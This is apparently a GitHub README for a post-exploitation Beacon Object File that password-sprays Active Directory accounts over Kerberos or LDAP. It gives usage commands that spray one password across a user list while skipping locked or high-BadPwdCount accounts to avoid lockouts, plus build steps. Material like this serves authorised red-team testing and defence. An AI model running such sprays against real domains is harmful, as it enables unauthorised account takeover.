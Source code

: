 # BOF - DomainPasswordSpray

A fork of [SprayAD BOF](https://github.com/outflanknl/C2-Tool-Collection/tree/main/BOF/SprayAD). Perform LDAP-based or Kerberos-based password spray using Windows API `LogonUserSSPI`. Skip disabled accounts, locked accounts and large BadPwdCount (if specified).

### Usage

Kerberos-based password spray

```
SprayAD --userlist /tmp/userlist.txt --password P@ssw0rd
```

Skip users that the number of times the user tried to log on with incorrect password larger than 2

```
SprayAD --userlist /tmp/userlist.txt --password P@ssw0rd --MaxBadPwdCount 2
```

LDAP-based password spray

```
SprayAD --userlist /tmp/userlist.txt --password P@ssw0rd --MaxBadPwdCount 2 --authservice ldap
```



### Compile

```linux
cd SOURCE
make
```



### References

+ [SprayAD BOF](https://github.com/outflanknl/C2-Tool-Collection/tree/main/BOF/SprayAD)